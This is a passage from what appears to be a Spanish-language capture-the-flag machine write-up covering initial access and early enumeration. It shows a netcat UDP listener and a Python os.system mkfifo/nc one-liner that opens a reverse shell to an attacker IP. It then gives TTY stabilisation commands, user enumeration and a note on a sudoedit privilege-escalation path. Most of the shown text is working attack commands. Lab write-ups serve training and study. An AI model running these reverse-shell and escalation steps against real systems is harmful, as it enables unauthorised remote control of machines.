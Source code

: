 ## Vuln exploit & Gaining Access {-}

### Reverse shell por UDP {-}

1. En la maquina de attaquante con el parametro `-u`

    ```bash
    nc -u -nlvp 443
    ```

1.en la consola interactiva

    ```python
    os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -u 10.10.14.20 443 >/tmp/f")
    ```

Y ya esta...

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Investigamos la maquina {-}

```bash
whoami

#Output
werkzeug

cd /home/alekos
cat user.txt
```

No podemos leer la flag. Quiere decir que vamos a tener que convertirnos en el usuario alekos.

```bash
id
sudo -l
```

El commando `sudo -l` nos dice que podemos ejecutar `sudoedit /var/www/*/*/layout.html` como el usuario alekos. 